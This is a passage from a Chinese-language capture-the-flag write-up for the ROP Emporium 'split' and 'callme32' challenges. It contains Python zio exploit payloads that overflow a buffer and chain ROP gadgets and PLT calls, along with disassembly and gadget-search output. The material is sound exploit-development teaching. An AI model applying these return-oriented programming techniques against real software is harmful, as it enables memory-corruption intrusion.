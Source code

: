 依然可以，因为参数的传递没有用到栈，我们只需把地址直接更改就可以了：

```python
from zio import *

payload  = "A"*40
payload += l64(0x00400883)
payload += l64(0x00601060)
payload += l64(0x4005e0)

io = zio('./split')
io.writeline(payload)
io.read()
```

### callme32

这里我们要接触真正的 plt 了，根据题目提示，callme32 从共享库 libcallme32.so 中导入三个特殊的函数：

```text
$ rabin2 -i callme32 | grep callme
ordinal=004 plt=0x080485b0 bind=GLOBAL type=FUNC name=callme_three
ordinal=005 plt=0x080485c0 bind=GLOBAL type=FUNC name=callme_one
ordinal=012 plt=0x08048620 bind=GLOBAL type=FUNC name=callme_two
```

我们要做的是依次调用 `callme_one()`、`callme_two()` 和 `callme_three()`，并且每个函数都要传入参数 `1`、`2`、`3`。通过调试我们能够知道函数逻辑，`callme_one` 用于读入加密后的 flag，然后依次调用 `callme_two` 和 `callme_three` 进行解密。

由于函数参数是放在栈上的，为了平衡堆栈，我们需要一个 `pop;pop;pop;ret` 的 gadgets：

```text
$ objdump -d callme32 | grep -A 3 pop
...
 80488a8:       5b                      pop    %ebx
 80488a9:       5e                      pop    %esi
 80488aa:       5f                      pop    %edi
 80488ab:       5d                      pop    %ebp
 80488ac:       c3                      ret
 80488ad:       8d 76 00                lea    0x0(%esi),%esi
...
```

或者是 `add esp, 8; pop; ret`，反正只要能平衡，都可以：

```text
gdb-peda$ ropsearch "add esp, 8"
Searching for ROP gadget: 'add esp, 8' in: binary ranges
0x08048576 : (b'83c4085bc3')    add esp,0x8; pop ebx; ret
0x080488c3 : (b'83c4085bc3')    add esp,0x8; pop ebx; ret
```

构造 payload 如下：

```python
from zio import *

payload  = "A"*44

payload += l32(0x080485c0)
payload += l32(0x080488a9)
payload += l32(0x1) + l32(0x2) + l32(0x3)

payload += l32(0x08048620)
payload += l32(0x080488a9)
payload += l32(0x1) + l32(0x2) + l32(0x3)

payload += l32(0x080485b0)
payload += l32(0x080488a9)
payload += l32(0x1) + l32(0x2) + l32(0x3)
```